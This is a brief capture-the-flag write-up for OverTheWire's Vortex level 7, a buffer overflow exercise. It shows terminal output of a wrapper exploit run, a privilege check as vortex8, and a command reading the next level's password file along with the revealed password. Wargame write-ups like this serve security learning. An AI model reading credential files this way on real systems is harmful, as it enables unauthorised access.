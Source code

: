 overthewire.org vortex level 7
==============================

The vulnerability exposed in [vortex level 7](http://www.overthewire.org/wargames/vortex/vortex7.shtml) is a basic buffer overflow.

    $ ./v7_wrapper 0 2
    Using address: 0xFFFFD91F
    $ whoami
    vortex8
    $ cat /etc/vortex_pass/vortex8 
    X70A_gcgl

